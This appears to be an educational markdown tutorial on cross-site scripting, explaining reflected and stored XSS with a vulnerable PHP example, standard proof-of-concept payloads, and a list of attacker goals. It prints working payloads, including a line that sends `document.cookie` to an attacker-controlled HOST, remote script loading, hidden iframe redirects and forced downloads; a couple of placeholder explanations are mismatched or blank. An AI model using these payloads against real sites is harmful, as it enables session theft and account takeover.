


# What is XSS?

Basically allowing attacker to inject client-side script.

Happens because developer does not sanitize input.

XSS attack are possible in VBScript, ActiveX, Flash and even CSS.

## XSS 101

When the website or application just reflects back content maliciously manipulated by user (usually in the URL), we have a reflected XSS attack. This reflection, as we saw, affects the way browsers display the page and how they process things and behave. Take the following PHP code:

```php
$username = $_GET[‘user’];

echo “<h1>Hello, ” . $username . “!</h1>”;
```

Which would display the user name taken from URL like

```php
http://mydomain.com/hello.php?user=John
```

In source code, it would be:

```php
<h1>Hello, John!</h1>
```



So, if an attacker use the URL `“http://mydomain.com/hello.php?user=<script>alert(1)</script>”` he/she will be able to make the browser generate the following source code:

```html
<h1>Hello, <script>alert(1)</script>!</h1>
```

Triggering the classic javascript alert box.



When the website or application stores user input in a database or a file to display it later, like a field in a profile or a comment in a forum, the resulting attack is called persistent or stored XSS. Every user that sees this stored content is a potential victim.

While in this last attack, an user just needs to open or navigate to an infected page to be attacked, in the reflected one an user usually must click on attacker’s link, which contains what we call vector or payload, the code used for the XSS attack. Although seeming less dangerous than stored version, a reflected XSS can also be invisibly embedded into any other website and executes from another browser tab or window in the context of the target application.

## Basic Examples

Usually, for a proof of concept (PoC) of an XSS attack exploring source-based flaws, security testers use one the following code.

### 1. With `<script>` tag

```javascript
<script>alert(1)</script>
```

or

```javascript
<script src=//HOST/SCRIPT></script>
```

With HOST being a domain or IP address controlled by tester and SCRIPT being a script with alert(1) as content, like in:

```javascript
<script src=//brutelogic.com.br/1.js></script>
```

### 2. With regular HTML tags

#### 2.1 Event-based

```html
<TAG EVENT=alert(1)>
```

With TAG being a proper HTML tag that supports a RESOURCE like:

```html
<body onload=alert(1)>


<svg onload=alert(1)>

<x onmouseover=alert(1)>
```

#### 2.2 Resource-based

```html
<TAG RESOURCE=javascript:alert(1)>
```

With TAG being any HTML or XML tag and EVENT being a supported event handler like:

```html
<iframe src=javascript:alert(1)>

<object data=javascript:alert(1)>
```

All these make a window pop-up appears with the number one inside. Although useful to show the execution of JavaScript and then the possibility of hooking the browser for control, it’s better to prove that execution in the context of the application. For this, “alert(1)” is changed to “alert(document.domain)”.

Example:

```js
<script>alert(document.domain)</script>
```

These are just to prove the vulnerability; for attacks in the wild, a victim of an XSS attack usually will not be able to see anything while his/her browser will perform the attacker’s desired actions.

## What can be done with XSS

These are the main actions that can be performed by an attacker when exploiting an XSS flaw.

### 1. Cross-Site Request Forgery (CSRF)

JavaScript execution in a target domain makes possible for an attacker to capture an anti-CSRF token or nonce. That is the main defense for an application against a Cross-Site Request Forgery (CSRF) attack and the ability to steal that token allows an attacker to perform any action in behalf of victim.

If a victim is an administrator of a Content Management System (CMS) like the open-source WordPress, it’s possible to completely takeover the website like demonstrated here.  As long as the attacker knows how to perform actions that victim can do by means of HTTP requests, it’s possible to change victim’s recovery email if there’s no password protection leading to account takeover.

Attack example:

```javascript
<script src=//brutelogic.com.br/MYSCRIPT.js></script>
```

### 2. Steal an user session on the vulnerable website (including admins)

Browsers use a small text file to store locally important data about a given website. This file contains what we call cookies, pairs of variable and value that have some meaning for the application that sent them to browser. Cookies are used to identify a person after he logged into an application, so server has no need to ask for credentials again every time an user request a resource. While cookies are valid (they expire after a certain time), an user session is active in the application. If these valid cookies are stolen, the thief can impersonate that user and interact with application in the same way the real user does, without even knowing his password.

This gives access to all personal data stored about an user, like his telephone number, home address and even his/her credit card details in an e-commerce website, for example. For website administrators (admins), an XSS attack can lead to takeover of his/her website and even the machine where it is hosted.

Attack example:

```html
<svg onload=fetch('//HOST/?cookie='+document.cookie)>
```

Where HOST is a domain or IP address controlled by attacker.

### 3. Capture the keys pressed by the user

By being able to capture what an user types in form fields, like the ones for login (username and password), an attacker can also compromise an user account in a given website.

### 4. Deface the page, serving any type of content

Users can be tricked into thinking that visited website was hacked or it’s not functional, which can lead to panic or the impossibility to perform actions in the application like buying an item.

```javascript
<svg onload="document.body.innerHTML=''">
```

Where HOST is a domain or IP address controlled by attacker and IMAGE is a full screen image with a “Hacked by” message, for example.

### 5. Trick the user into giving his/her credentials by means of a fake HTML form

With the ability to serve any content, an attacker can convince an user to enter or reenter his/her credentials in the application, but this time sending them to an attacker.

### 6. Crash the browser (local denial of service)

Very rare use, but possible. An attacker may want to keep away a certain rival in an auction, for example, by making his/her browser unresponsive.

### 7. Force download of files

It’s straightforward to make user’s browser download any file with XSS, but not necessarily executing it, which would give access to user machine. Unfortunately, due to the fact that an attacker has control over several other aspects of the trusted website, seems not so difficult to also trick the user into open it.

Attack Example:

```javascript
<a href=//HOST/FILE download=FILENAME>Download</a>
```

Where HOST is a domain or IP address controlled by attacker, FILE is the file attacker want the victim to download and FILENAME is the name of the file in victim’s machine (user can be forced to download an executable file while saving it as an image, for example).

### 8. Redirect user’s browser to another website where his/her machine can be compromised by memory exploits

Again, with the aim to takeover the user machine, an attacker can redirect the browser invisibly to another web address where another prepared application will try to break the browser barrier to access the user operating system (which would lead to compromise). If user has an outdated or vulnerable browser, attacker has great chances of success.

Attack Example:

```html
<iframe src=//HOST/ style=display:none></iframe>
```

Where  is a domain or IP address controlled by attacker.
